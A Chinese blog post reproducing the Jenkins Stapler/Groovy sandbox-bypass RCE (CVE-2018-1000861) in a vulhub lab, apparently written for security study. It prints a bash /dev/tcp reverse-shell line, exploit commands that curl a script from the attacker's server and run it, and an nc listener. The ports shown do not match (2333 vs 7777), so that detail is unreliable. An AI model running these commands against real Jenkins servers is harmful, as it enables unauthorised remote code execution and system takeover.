

# CVE-2018-1000861 复现 - rnss - 博客园

> 原文：[`www.cnblogs.com/rnss/p/13377980.html`](https://www.cnblogs.com/rnss/p/13377980.html)

# 0x00 漏洞描述

Jenkins 使用 Stapler 框架开发，其允许用户通过 URL PATH 来调用一次 public 方法。由于这个过程没有做限制，攻击者可以构造一些特殊的 PATH 来执行一些敏感的 Java 方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过 Groovy 沙盒导致未授权用户可执行任意命令：Jenkins 在沙盒中执行 Groovy 前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过 Meta-Programming 的方式，在检查这个步骤时执行任意命令。

# 0x01 环境搭建

使用 vulhub 搭建漏洞环境

/vulhub-master/jenkins/CVE-2018-1000861

[`192.168.255.130:8080/`](http://192.168.255.130:8080/)



#  0x02 复现

此漏洞没有回显，直接利用 orange 的 exp 执行命令反弹 shell

https://github.com/orangetw/awesome-jenkins-rce-2019

(1).在我们的 web 服务器写 txt 文本内容为：

```
bash -i >& /dev/tcp/*.*.*.*/2333 0>&1
```

(2).使用 exp.py 执行以下命令下载文件

```
python exp.py http://192.168.255.130:8080/ "curl -o /tmp/1.sh http://192.168.255.1/1.txt"
```

(3).然后在我们接收 shell 的机器上监听之前写的端口

```
nc64.exe -lvvp 7777
```

(4).直接 bash 执行我们下载的脚本

```
python exp.py http://192.168.255.130:8080/ "bash /tmp/1.sh"
```

(5).回到监听端口的机器

成功获取到 shell


 参考文章：[`www.cnblogs.com/cwkiller/p/12578924.html`](https://www.cnblogs.com/cwkiller/p/12578924.html)